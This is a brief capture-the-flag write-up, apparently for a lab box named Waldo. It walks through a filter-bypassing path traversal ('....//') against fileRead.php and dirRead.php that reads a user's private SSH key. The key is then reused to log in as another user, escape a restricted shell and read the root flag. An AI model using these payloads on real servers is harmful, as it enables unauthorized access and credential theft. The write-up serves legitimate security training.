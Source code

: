 #waldo

In the source code of the http website there is this java code:

```function readFile(file){ 
  var xhttp = new XMLHttpRequest();
  xhttp.open("POST","fileRead.php",false);
  xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  xhttp.send('file=' + file);
  if (xhttp.readyState === 4 && xhttp.status === 200) {
    return xhttp.responseText;
  }else{
  }
}
```
we can use this to read other php files on the server

we intercept the request with burpe and we find out that we can provide an output to `/dirRead.php` to get files.
when playing around with requests we can see that there is a filter on the ../../
```path=....//....//....//....//....//home/nobody//.ssh returns; [".","..",".monitor","authorized_keys","known_hosts"]```
so we can see that the .moinitor might be the private key

we then do this command in /fileRead.php:
```file=....//....//....//....//....//home/nobody/.ssh/.monitor```
which gives us the ssh key for the user nobody 
we can also use the script provided to have a command line interface to get the ssh key
it appears taht there is another user on the box 'monitor' so we try log back in with teh same ssh key to escape our restricted bash shell

```ssh -i /home/nobody/.ssh/.monitor monitor@127.0.0.1 -t bash --noprofile```
the path is screwed so we have to do:
```export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH```
now we can go and have a look around
we eventually figure out that we can use the tac binary to read files
tac /root/root.txt


